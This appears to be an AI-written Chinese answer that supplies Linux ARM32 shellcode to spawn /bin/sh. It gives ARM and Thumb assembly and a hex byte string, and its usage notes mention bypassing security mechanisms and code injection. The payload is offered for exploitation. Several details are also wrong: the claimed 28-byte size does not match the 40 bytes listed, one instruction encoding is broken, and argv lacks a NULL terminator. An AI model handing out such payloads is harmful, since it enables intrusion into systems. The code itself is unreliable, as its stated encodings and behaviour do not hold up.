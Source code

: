 这里是一个Linux ARM32架构下执行`/bin/sh`的shellcode：

```nasm
; Linux ARM32 execve("/bin/sh") shellcode
; 大小：28 bytes

.global _start
.section .text
_start:
    ; 清零寄存器
    eor r0, r0, r0      ; r0 = 0
    eor r1, r1, r1      ; r1 = 0
    eor r2, r2, r2      ; r2 = 0
    
    ; 构建"/bin/sh"字符串
    adr r0, binsh       ; 加载字符串地址
    push {r0}           ; 压入参数数组
    mov r1, sp          ; r1 = argv
    
    ; 执行系统调用
    mov r7, #11         ; execve系统调用号
    svc #0             ; 触发系统调用
    
binsh:
    .ascii "/bin/sh"
    .byte 0
```

十六进制形式：
```
\x00\x00\x20\xe0\x01\x10\x21\xe0\x02\x20\x22\xe0\x0f\x00\x8f\xe2
\x00\x00\x2d\xe9\x0d\x10\xa0\xe1\x0b\x70\xa0\xe3\x00\x00\x00\xef
\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

主要特点和分析：

1. ARM32系统调用约定：
- r0-r6：参数寄存器
- r7：系统调用号
- svc #0：触发系统调用（旧版本使用swi #0）

2. 关键指令解释：
```nasm
eor r0, r0, r0     ; 异或清零
adr r0, binsh      ; 相对寻址
push {r0}          ; 栈操作
mov r7, #11        ; 设置系统调用号
```

3. 寄存器使用：
- r0：第一个参数（路径）
- r1：第二个参数（argv）
- r2：第三个参数（envp）
- r7：系统调用号

4. ARM32独特特性：
- 条件执行能力
- Thumb模式支持
- 灵活的寻址模式
- 多种指令集状态

另一个变体（Thumb模式）：
```nasm
; Thumb模式版本
.thumb
mov r7, #11
eor r2, r2
adr r0, sh
push {r0}
mov r1, sp
svc #1

sh:
.ascii "/bin/sh"
.byte 0
```

使用注意事项：
1. 指令集状态（ARM/Thumb）
2. 内存对齐要求
3. 系统调用规范
4. 栈操作限制

与其他架构的区别：
1. 条件执行特性
2. 多种指令集模式
3. 不同的系统调用方式
4. 寄存器使用规则

实际应用考虑：
1. 目标系统兼容性
2. 安全机制绕过
3. 代码注入限制
4. 执行环境要求

检查和测试建议：
1. 使用模拟器验证
2. 检查内存访问
3. 验证系统调用
4. 确保代码位置无关